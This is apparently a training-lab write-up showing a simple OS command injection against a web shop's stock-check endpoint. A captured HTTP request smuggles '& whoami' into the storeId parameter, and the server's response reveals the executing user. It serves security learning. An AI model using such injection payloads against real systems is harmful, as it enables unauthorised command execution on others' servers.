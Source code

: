 # Lab - 01

Topic :  OS command injection, simple case

Concept:  Doing a simple command injection

End Goal : Command Injection

Analysis : 

- It’s already given that the vuln is in the stock check feature
- First of all we fetch the burp request

```
POST /product/stock HTTP/2
Host: 0aed000904789614813207cc003500e5.web-security-academy.net
Cookie: session=PJ0idMrpQ5s4AQehOVwS7xGUG7Z4pF2q
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aed000904789614813207cc003500e5.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0aed000904789614813207cc003500e5.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=2&storeId=1%20%26%20whoami
```

- We fuzz the storeId parameter with url encoded `1 & whoami` [url encoded].
- Output

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 16

peter-C7K1gv
32
```
